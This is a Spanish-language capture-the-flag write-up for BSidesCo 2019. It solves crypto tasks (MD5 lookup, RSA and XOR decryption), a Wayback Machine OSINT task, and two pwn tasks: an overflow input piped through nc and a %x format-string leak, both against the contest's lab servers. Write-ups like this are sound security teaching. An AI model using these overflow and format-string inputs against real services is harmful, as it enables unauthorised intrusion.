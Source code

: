 # BSidesCo 2019


 - [BSidesCo CTF 2019](#bsidesco-2019)
   - [crypto](#crypto)
     - [Irreversible](#irreversible)
     - [Robando Secretos Antiguos 1](#robando-secretos-antiguos-1)
     - [Exorcismo 1](#exorcismo-1)
   - [misc](#misc)
     - [Pasado](#pasado)
   - [pwn](#pwn)
     - [Incontinencia](#incontinencia)
     - [Magia magia](#magia-magia)
   - [web](#web)



## crypto

### Irreversible

En el reto nos dan el archivo *secreto_ENqLQHW*, revisando el contenido del archivo se encontraron las siguientes cadenas

```
d3533c8a56a9325ab32af80bb99d652b
70e79d498d7885d565ab2c75d3062fc7
7f138a09169b250e9dcb378140907378
337a4834d0dda8ea2f43d9e10d6dd730
fc985ff116f0a3325ae2b57e19ca68ea
```
La pista del reto es: 
**La bandera sigue el formato _BSidesCo{palabra_palabra_palabra_palabra_palabra}_**

Por el formato parece ser MD5. Una consulta rápida en [md5decrypt.net](https://md5decrypt.net) muestra el valor de cada cadena:

```
d3533c8a56a9325ab32af80bb99d652b : Cifrar
70e79d498d7885d565ab2c75d3062fc7 : usando
7f138a09169b250e9dcb378140907378 : MD5
337a4834d0dda8ea2f43d9e10d6dd730 : parece
fc985ff116f0a3325ae2b57e19ca68ea : inutil
```
Siguiendo la pista la flag es: 

**_BSidesCo{Cifrar_usando_MD5_parece_inutil}_**


### Robando Secretos Antiguos 1

El reto dice **_Un amigo logró robar un secreto pero necesitamos alguien que lo descifre._** y ofrece dos archivos **mensaje** y **secreto_4w0rH5o**

Revisando los dos archivos conocemos que **mensaje** es data y  **secreto_4w0rH5o** es una llave privada RSA

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file mensaje                  
mensaje: data
```

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file secreto_4w0rH5o                  
secreto_4w0rH5o: PEM RSA private key
```

Usando OpenSSL podemos decifrar el mensaje


```console
oscar@asgard:~/WORKSPACE/ctf/bsides$openssl rsautl -decrypt -in mensaje -out mensaje.txt -inkey secreto_4w0rH5o                  
```
Revisando el contenido de **mensaje.txt** encontramos la bandera:

**_BSidesCo{uN_s3Cr3T0_P0c0_S3cR3t0}_**

### Exorcismo 1

En este reto nos dan el archivo **secreto**

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$cat secreto 
010100000011001001001010011011000110001001101100010011000111010101000111001101000110001000110000011100100011000001010000011011000110011101111010010010010111010001011010011000100011000101100111001100100110011101001011011100000100110001000111

000100100110000100100011000010000000011100011111000011110001101000111100010101110011000001001001000000100110010001100000001100110000010001001110001001010100011100110100000101100000010100001010000000110000001000100101000001000111110000111010
```

La pista del reto es: **_eXORcismo, así o más explícito? ;)_**

Usando una [calculadora XOR online](https://xor.pw/) con los dos bloques como input y calculando la salida como ASCII(base 256) se obtiene la bandera:

**_BSidesCo{cRypT0_c4l3nt4m1ent0}_** 

## misc

### Pasado

El reto nos pide la URL del formulario que se debía llenar para proponer una charla para el BSidesCo del año 2016.

La pista del reto es: **_La bandera no sigue el formato, es la URL._**

Buscando en [Way Back Machine](https://web.archive.org/) la url _bsidesco.org_ se puede ver un snapshot del sitio del 20 de junio de 2016.

En el link **Enviar Paper** se puede encontrar la URL del form.

**_https://bsidesco.typeform.com/to/qKrnSF_** y esa es la bandera

## pwn

### Incontinencia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$python -c "print 'Y'*10" | nc -v retos.bsides.ctf.co 
Connection to retos.bsides.ctf.co 31332 port [tcp/*] succeeded!
====================|==|====================
SERVICIO DE CORREO SIN MEDIDA
Usuario     : Rodolfo
Bandeja     : 1 nuevo correo
====================|==|====================

Se requiere una clave para observar el correo...
ADVERTENCIA: SE RECOMIENA UNA CLAVE DE 7 DIGITOS
Entre su clave: 
Cargando la bandeja...

Email 1: From (sedisb@anon44f8zh7c8a.onion)
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA1
I'll be sending out invitations shortly. Will most likely host
the recruitment site on the dark web. Was wondering if you had
any good suggestions for the recruitment challenge. Thanks.
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v3.3.7 (MingW32)
iD8DBQFFxqRFCMEe9B/8oqEaE5RtJ91Tx4RziVzY4eR4Ms4MFsKAMqOoQCgg7y6
e5AJIRuLUIUikjNWQIW63QE=
=aAhr
-----END PGP SIGNATURE-----
Email 1: End

BSidesCo{GO0O0O0v3rfl0W}
oscar@asgard:~/WORKSPACE/ctf/bsides$
```

La bandera es:

**_BSidesCo{GO0O0O0v3rfl0W}_**

### Magia magia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$nc -v retos.bsides.ctf.co 31333
Connection to retos.bsides.ctf.co 31333 port [tcp/*] succeeded!
Prueba que eres mago y lees mentes!
Primero dime tu nombre (hasta 10 letras): 
%x.%x.%x
Estoy pensando un numero entre 0 y 1000000, puedes decirme cual es?
a192a284.5db.7433f
has tu prediccion: 475967
Sorprendente! Aca esta la bandera: BSidesCo{m4gi4_MAG1a-b5G_BU6}

oscar@asgard:~/WORKSPACE/ctf/bsides$
```


## web
